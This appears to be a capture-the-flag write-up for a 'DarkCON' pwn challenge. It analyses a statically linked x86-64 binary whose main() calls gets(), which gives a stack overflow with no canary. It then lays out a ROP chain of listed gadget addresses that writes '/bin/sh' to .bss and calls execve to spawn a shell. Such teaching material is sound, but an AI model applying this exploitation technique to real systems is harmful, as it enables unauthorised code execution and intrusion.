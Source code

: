 # Easy-ROP

### This is a simple ROP exploit.

```
file easy-rop
easy-rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=78fc05fd7938307a19ef9a1d0514d19126d62727, for GNU/Linux 3.2.0, not stripped
```

So the given binary is statically linked. 

The security protections for this binary are:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see NX enabled and about the canary, As the libc is statically linked and some of the libc functions present in the binary has canary enabled so the checksec shows that the canary enabled but after decompiling we can see that :

```

void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}

```
The  ```__stack_chk_fail``` function is not present concluding there is no canary present in the main function.

By decompiling the main it just uses ```gets()``` So we have a buffer overflow vulnerability. So we can change the **return address** to jump anywhere in the binary.


As the given binary is statically linked we will have so many ROPGadgets which we can use to form a shell code using ROP.

### So the attack vector is:

- Just try to write ```/bin/sh``` in any writable section (preferably in .bss)
- Then try to use syscall and execute the system("/bin/sh") to get the shell

So for this I used these ROP gadgets for my exploit:

```
0x0000000000481e65 : mov qword ptr [rsi], rax ; ret
0x00000000004175eb : pop rax ; ret
0x000000000040191a : pop rdi ; ret
0x000000000040f4be : pop rsi ; ret
0x000000000040181f : pop rdx ; ret
0x00000000004012d3 : syscall
```

- pop rax  ** "/bin/sh"
- pop rsi  ** (address of bss)
- mov qword ptr [rsi], rax ** so the starting address of bss contains the /bin/sh
- pop rax,0x3b ** execve syscall
- pop rdi ** bss (pointer to "/bin/sh")
- pop rsi ** 0
- pop rdx ** 0
- syscall

Here is the full [Exploit](./exploit.py) 

Enjoy the shell
